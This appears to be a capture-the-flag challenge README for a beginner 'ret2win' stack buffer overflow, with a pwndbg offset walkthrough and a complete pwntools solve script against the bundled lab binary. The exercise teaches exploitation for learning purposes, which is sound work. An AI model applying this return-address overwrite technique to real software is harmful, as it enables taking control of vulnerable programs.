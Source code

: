# Challenge Name
baby_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function.

To perform ret2win, we need to overwrite the return address from `main` to `win` after `vuln` function finishes running.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d baby_R2W_bin | grep win
0000000000401136 <win>:
```

Now we can put our solve script together!

#### Final Solution
```python
from pwn import *

# setup process
p = process("./baby_R2W_bin")
context.binary = "./baby_R2W_bin"

# address of win function
win = p64(0x401136)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Attached Files
- baby_R2W.c
- baby_R2W_bin

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD